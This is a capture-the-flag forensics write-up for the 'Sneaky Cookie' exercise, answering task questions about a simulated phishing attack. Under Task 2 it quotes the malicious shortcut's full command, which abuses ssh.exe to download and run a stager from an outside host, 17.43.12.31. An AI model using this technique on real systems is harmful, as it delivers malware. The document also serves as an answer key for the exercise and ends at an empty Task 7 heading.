 # OpTinselTrace24-1: Sneaky Cookie

## Task 1

Q: Krampus, a notorious threat actor, possibly social-engineered bingle as email security filters were offline for maintenance. Find any suspicious files under Bingle Jollybeard User directory and get back to us with the full file name

`christmas_slab.pdf.lnk` - in Documents (added .lnk since it is a shortcut)

## Task 2

Q: Using the malicious file sent as part of phishing, the attacker abused a legitimate binary to download and execute a C&C stager. What is the full command used to download and execute the C&C Binary?

Get command line of the aforementioned lnk

`C:\Windows\System32\OpenSSH\ssh.exe -o "PermitLocalCommand=yes" -o "StrictHostKeyChecking=no" -o "LocalCommand=scp root@17.43.12.31:/home/revenge/christmas-sale.exe c:\users\public\. && c:\users\public\christmas-sale.exe" revenge@17.43.12.31`

## Task 3

Q: When was this file ran on the system by the victim?

`2024-11-05 15:50:33` - get PEcmd from eric zimmerman and use it on the ssh.exe prefetch file

## Task 4

Q: What is the Mitre Sub technique ID for the technique used in Q1 and Q2 ?

`T1204.002` - tried a few, such as Phishing.Spearphishing file, CommandInterpreter.Powershell/WindowsCmd, but this one worked

## Task 5

Q: What was the name of threat actor's machine used to develop/create the malicious file sent as part of phishing?

`christmas-destr` - use LEcmd from EZ and use it on the LNK at the start

## Task 6

Q: When did attacker enumerated the running processes on the system?

`2024-11-05 15:52:30` - look through prefetch files and find tasklist, which can be used for listing processes, and run PEcmd on it

## Task 7
